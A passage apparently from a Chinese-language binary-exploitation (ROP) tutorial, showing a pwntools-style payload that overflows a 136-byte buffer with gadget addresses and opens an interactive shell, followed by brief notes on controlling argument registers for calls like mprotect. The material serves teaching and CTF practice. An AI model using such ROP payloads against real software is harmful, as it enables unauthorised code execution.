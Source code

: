 ```python
payload3 = "A" * 136 + p64(0x4011e2) + p64(0) + p64(1) + p64(bss_addr+8) + p64(0) + p64(0) + p64(bss_addr) + p64(0x4011c8)
p.send(payload3)
p.interactive()
```
## 5.2. _dl_runtime_resolve
通过这个gadget可以控制六个64位参数寄存器的值，当我们使用参数比较多的函数的时候（比如mmap和mprotect）就可以派上用场了。
## 5.3. 一个Tips
另外，通过控制PC跳转到某些经过稍微偏移过的地址（会改变程序原来的汇编代码）会得到意想不到的效果。
